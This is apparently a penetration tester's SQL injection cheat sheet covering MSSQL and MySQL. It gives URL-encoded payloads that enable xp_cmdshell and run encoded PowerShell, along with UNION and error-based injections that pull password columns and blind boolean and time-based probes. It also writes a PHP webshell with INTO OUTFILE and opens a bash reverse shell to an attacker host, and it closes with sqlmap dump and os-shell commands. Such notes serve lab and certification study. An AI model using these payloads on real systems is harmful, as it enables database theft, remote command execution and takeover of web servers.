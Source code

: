 # SQLi

URL encoding: https://www.urlencoder.io/

## MSSQL 

### Basics

#### Connection

User account: `Administrator`
```
kali$ impacket-mssqlclient $SomeUserAccount:$somepass@$TargetIp -windows-auth
```

#### Commands

Known table `master.sys.sysusers`: https://learn.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysusers-transact-sql?view=sql-server-ver16
```
SQL> SELECT @@version;
SQL> SELECT name FROM sys.databases;
SQL> SELECT * FROM somedatabasename.information_schema.tables; # tables of the "somedatabasename" db, together with their schema
SQL> SELECT * FROM somedatabasename.someschema.sometablename; # table name of interest: "users"

SQL> select * from master.information_schema.tables;
SQL> select top 2 * from master.dbo.sysusers; # table "sysusers" is an alias /!\; top 2 lines
```

Find column names in the database containing the 'user' string:
```
select c.name as 'ColumnName', (SCHEMA_NAME(t.schema_id) + '.' + t.name) AS 'TableName' 
    FROM sys.columns c 
    JOIN sys.tables t 
    ON c.object_id = t.object_id 
    WHERE c.name LIKE '%user%' 
    ORDER BY TableName,ColumnName;
```

### Attacks

#### Principle

Function `xp_cmdshell` needs to be activated:
- usage: https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15
- enabling: https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15

Example "locally":
```
kali$ impacket-mssqlclient Administrator:thelocaladminpass@$TargetIp -windows-auth
SQL> execute sp_configure 'show advanced options', 1;
SQL> reconfigure;
SQL> execute sp_configure 'xp_cmdshell';
SQL> reconfigure;
SQL> execute xp_cmdshell 'whoami';
```
and URL encoded for Burp Suite:
```
'%20execute%20sp_configure%20%27show%20advanced%20options%27%2C%201%3B%20--%20
'%20reconfigure%3B%20--%20
'%20execute%20sp_configure%20%27xp_cmdshell%27%3B%20--%20
'%20reconfigure%3B%20--%20
'%20execute%20xp_cmdshell%20%27whoami%27%3B%20--%20
```

Variant: https://stackoverflow.com/questions/5131491/enable-xp-cmdshell-sql-server
```
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'xp_cmdshell', 1
RECONFIGURE
exec xp_cmdshell whoami
```

#### In blind mode

Once identified a vulnerable input field (ALWAYS url encoded):
```
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20execute%20sp_configure%20...%3b--
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20reconfigure%3b--
...
curl http://sitetohack.com/someform.php?vulnparam=somevalue%20'%20execute%20xp_cmdshell%20'powershell%20-enc%20some_long_base64_string_url_encoded'%3b--
```
and listen with nc: `nc -lnvp $some_port_as_in_the_base64_long_string`.

Or sqlmap...

## MySQL

### Basics

#### Connection
```
$ mysql -u root -p'rootpassword' -h $DbServerIp -P $DbServerPort
```

#### Commands
```
> select version();
> select system_user();
> show databases;
> use databasetohack;
> select table_name from information_schema.tables;
> select table_name, table_schema from information_schema.tables where table_schema = 'databasetohack';
> select table_name, table_schema from information_schema.tables where table_schema = database(); # current db in use
> select column_name from information_schema.columns where table_name = 'tablenamewithusers' ;

> SELECT user, authentication_string, plugin FROM mysql.user WHERE user = 'usertohack';
```

### Attacks

#### Error-based payloads

Php mysqli queries (stands for MySQL Improved): https://www.php.net/manual/en/mysqli.query.php

Vulnerable Php query:
```
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

Injections:
```
someuser ' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from user_table) -- //
' or 1=1 in (select password_column from user_table) -- //
' or 1=1 in (select password_column from user_table where username_column = 'admin') -- //
```

#### Union select

Regular `UNION SELECT`: https://www.mysqltutorial.org/sql-union-mysql.aspx

Vulnerable Php query:
```
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```

Injection:
```
' order by 1,2,3 -- //
%' union select database(), user(), @@version, null, null -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' union select null, username, password, description, null from users -- //
```
gives:
```
SELECT * from customers WHERE name LIKE '' order by 1,2,3 -- //'";
SELECT * from customers WHERE name LIKE '%' union select database(), user(), @@version, null, null -- //'";
SELECT * from customers WHERE name LIKE '' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
The `order by` injection retrieves the table size, then simple `UNION SELECT` test:
```
' union select '1', '2', '3', '4', '5', '6', ... -- //
```

#### Blind injections

Boolean-based, the fake user query gives an empty output:
```
http://$TargetIp/blindsqli.php?user=trueuser' AND 1=1 -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND 1=1 -- //
```

Time-based, the fake user response is immediate (time consuming):
```
http://$TargetIp/blindsqli.php?user=trueuser' AND IF (1=1, sleep(3),'false') -- //
http://$TargetIp/blindsqli.php?user=fakeuser' AND IF (1=1, sleep(3),'false') -- //
```

#### Php injection - OS command

Php injection in an `input` HTML field:
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, ..., null INTO OUTFILE "/path/on/target/webshell.php" -- //
```
and trigger the webshell:
```
curl $TargetIp/path/on/target/webshell.php?cmd=ls
curl $TargetIp/path/on/target/webshell.php?cmd=id
curl $TargetIp/path/on/target/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F$AttackerIp%2F$AttackerPort%200%3E%261%22
```

## Sqlmap

https://sqlmap.org/

Test for vulnerabilities and dump the database:
```
sqlmap -u http://ip/page.php?user=dummy -p user
sqlmap -u http://ip/page.php?user=dummy -p user --dump # time consuming
```

Intercept a `UNION SELECT` in Burp and record the `POST` as a file. Then use sqlmap to get a webshell:
```
sqlmap -r post_request_saved_as_a_file.txt -p some_input_parameter_in_the_post_request --os-shell --web-root "/var/www/html/tmp"
```

## CVE examples

- WordPress plugin Perfect Survey: https://sploitus.com/exploit?id=WPEX-ID:C1620905-7C31-4E62-80F5-1D9635BE11AD
- PostGreSQL RCE: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193

